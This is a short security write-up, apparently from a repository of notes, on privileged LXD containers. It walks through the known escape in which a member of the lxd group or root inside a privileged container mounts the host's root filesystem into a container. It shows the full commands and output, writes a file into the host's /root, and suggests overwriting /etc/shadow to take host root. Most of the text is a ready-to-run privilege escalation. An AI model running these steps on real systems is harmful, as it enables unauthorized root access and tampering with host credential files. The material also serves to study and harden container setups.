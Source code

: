 ## Privileged Containers

All bets are off with privileged containers, to test out creating one we want to do the following

```
sudo su
lxc launch ubuntu:16.04 --security.privileged=true
lxc exec <name> bash
useradd tecmint
passwd tecmint
mkdir /home/tecmint
chown tecmint:tecmint /home/tecmint
usermod -a -G lxd tecmint
su tecmint
```

If you have either root privileges within a privileged container, or are a member of the lxd group, you can easily get root access on the host.  To do this, you'll have to mount the root directory under a container.

```
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

Here we see us creating a file within the /root/ directory under the mountpoint as shown.

```
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit
```

And so we see that the file has been created within our root directory.

```
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#
```

This can be used quite trivially for container escape, as mounting the root directory in a nested container will mount the hosts container as all lxd commands run on the host.  While you won't be able to run arbitrary code on the host, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

References:

[https://linuxcontainers.org/lxc/getting-started/](https://linuxcontainers.org/lxc/getting-started/)

[https://github.com/lxc/lxd/issues/2003](https://github.com/lxc/lxd/issues/2003)

